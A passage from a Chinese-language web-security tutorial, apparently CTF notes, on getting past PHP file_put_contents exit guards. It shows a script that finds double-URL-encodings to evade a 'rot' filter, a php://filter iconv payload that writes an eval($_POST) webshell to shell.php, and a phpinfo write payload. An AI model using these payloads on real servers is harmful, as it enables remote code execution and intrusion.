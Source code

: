 如果rot被过滤了，可以采用rot的二次编码

这里有一个rot二次编码的脚本。

```php
<?php 
$char = 'r'; #构造r的二次编码 
for ($ascii1 = 0; $ascii1 < 256; $ascii1++) { 
    for ($ascii2 = 0; $ascii2 < 256; $ascii2++) { 
        $aaa = '%'.$ascii1.'%'.$ascii2; 
        if(urldecode(urldecode($aaa)) == $char){ 
            echo $char.': '.$aaa; 
            echo "\n"; 
        } 
    } 
} 
?> 
```

#### 三.convert.iconv.\*过滤

直接写过滤姿势了，因为原理前面讲过了。这里写的ucs-2，其实4也可以。

```url
file=php://filter/convert.iconv.UCS-2LE.UCS-2BE|?<hp pe@av(l_$OPTSx[)]?;;>/resource=shell.php
```

#### <mark style="color:orange;">③</mark><mark style="color:orange;">`file_put_contents($filename,$content."\nxxxxxxx");`</mark>

没有结束，直接输入就行了。

```url
filename=shell.php&content=<?php phpinfo();?>
```

## <mark style="color:red;background-color:orange;">参考门：</mark>

{% embed url="https://www.freebuf.com/articles/web/182280.html" %}

{% embed url="https://www.anquanke.com/post/id/248627#h3-1" %}

{% embed url="https://xiaolong22333.top/archives/114/" %}

欢迎大家给我留言，🤭
